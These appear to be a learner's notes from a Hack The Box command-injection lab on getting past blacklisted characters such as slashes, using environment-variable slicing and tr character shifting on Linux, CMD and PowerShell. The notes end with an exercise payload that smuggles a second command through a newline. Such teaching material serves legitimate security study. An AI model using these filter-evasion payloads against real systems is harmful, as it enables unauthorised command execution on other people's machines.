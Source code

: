 # Bypassing Other Blacklisted Characters

## Linux
`\` and `/` is often blacklisted. One such technique for replacing slashes or any other characters is through Linux Environment Variables. For example, `$PATH` may look something like:
```
farelmusyaffa@htb[/htb]$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```
We can use this to get a `/` character:
```
farelmusyaffa@htb[/htb]$ echo ${PATH:0:1}

/
```
Use `printenv` command to print all environment variables
## Windows
CMD
```
C:\htb> echo %HOMEPATH:~6,-11%

\
```
Powershell
```
PS C:\htb> $env:HOMEPATH[0]

\


PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>
```
Use `Get-ChildItem Env:` to print all environment variables

## Character Shifting
```
farelmusyaffa@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
farelmusyaffa@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```

Exercise payload: <br>
`127.0.0.1%0a{ls,-al,${PATH:0:1}home}`
